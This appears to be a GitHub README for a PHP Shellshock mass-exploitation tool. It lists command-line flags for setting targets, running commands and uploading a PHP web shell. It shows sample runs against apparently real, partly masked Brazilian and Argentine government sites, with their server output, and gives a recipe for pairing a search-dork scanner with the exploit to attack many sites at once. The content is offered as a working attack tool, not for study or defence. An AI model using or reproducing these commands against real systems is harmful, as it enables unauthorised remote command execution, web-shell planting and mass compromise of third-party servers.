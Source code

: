 - Xpl-SHELLSHOCK-Ch3ck
------
The tool inject a malicious user agent that allows exploring the vulnerabildiade   sheellshock running server-side commands.

```
  # SCRIPT by:     [ I N U R L  -  B R A S I L ] - [ By GoogleINURL ]
  # EXPLOIT NAME:  Xpl SHELLSHOCK Ch3ck Tool - (MASS)/ INURL BRASIL
  # AUTOR:         Cleiton Pinheiro / Nick: googleINURL
  # Email:         inurlbr@gmail.com
  # Blog:          http://blog.inurl.com.br
  # Twitter:       https://twitter.com/googleinurl
  # Fanpage:       https://fb.com/InurlBrasil
  # Pastebin       http://pastebin.com/u/Googleinurl
  # GIT:           https://github.com/googleinurl
  # PSS:           http://packetstormsecurity.com/user/googleinurl
  # YOUTUBE:       http://youtube.com/c/INURLBrasil
  # PLUS:          http://google.com/+INURLBrasil
```
  
- DESCRIPTION - VULNERABILITY(SHELLSHOCK)
------
```
- CVE-2014-6271, CVE-2014-6277,
- CVE-2014-6278, CVE-2014-7169,
- CVE-2014-7186, CVE-2014-7187
Is a vulnerability in GNU's bash shell that gives attackers access
to run remote commands on a vulnerable system.
```

- DESCRIPTION - TOOL
------
```
The tool inject a malicious user agent that allows exploring the vulnerability
sheelshock running server-side commands.
``` 

-  Dependencies:
------
```
sudo apt-get install php5 php5-cli php5-curl
```

 - Execute:
------
```
  -t : SET TARGET.
  -f : SET FILE TARGETS.
  -c : SET COMMAND.
  -w : SET UPLOAD SHELL PHP.
  Execute:
  php xplSHELLSHOCK.php -t target -c command
  php xplSHELLSHOCK.php -f targets.txt -c command
  SHELL UPLOAD: php xplSHELLSHOCK.php -t target -c command -w
  OUTPUT VULN: SHELLSHOCK_vull.txt
```
 - Exemples:
------
```
php xpl.php -t 'http://www.xxxcamnpalxxx.com.br/cgi-bin/login.sh' -c pwd
CMD:
Linux serv 2.6.29.6-smp #2 SMP Mon Aug 17 00:52:54 CDT 2009 i686 Intel(R) Xeon(R) CPU E5504  @ 2.00GHz GenuineIntel GNU/Linux
uid=1000(icone) gid=100(users) groups=100(users)
/ico/camnpal/cgi-bin
END_CMD:


php xpl.php -t 'http://www.xxxbnmxxx.me.gov.ar/cgi-bin/wxis.exe/opac/?IsisScript=opac/opac.xis' -c pwd
CMD:
Linux sitiobnm 2.6.37BNM #26 SMP Tue Jan 25 19:22:26 ART 2011 x86_64 GNU/Linux
uid=1005(webmaster) gid=1003(webmaster) groups=1003(webmaster)
/mnt/volume1/sitio/data/catalogos/cgi-bin
END_CMD:
```

 - EXPLOIT MASS USE SCANNER INURLBR
------
```
./inurlbr.php --dork 'inurl:"/cgi-bin/login.sh"' -s out.txt -q 1,6 --command-vul "php xpl.php -t '_TARGETFULL_' -c pwd"
```
More details about inurlbr scanner: https://github.com/googleinurl/SCANNER-INURLBR
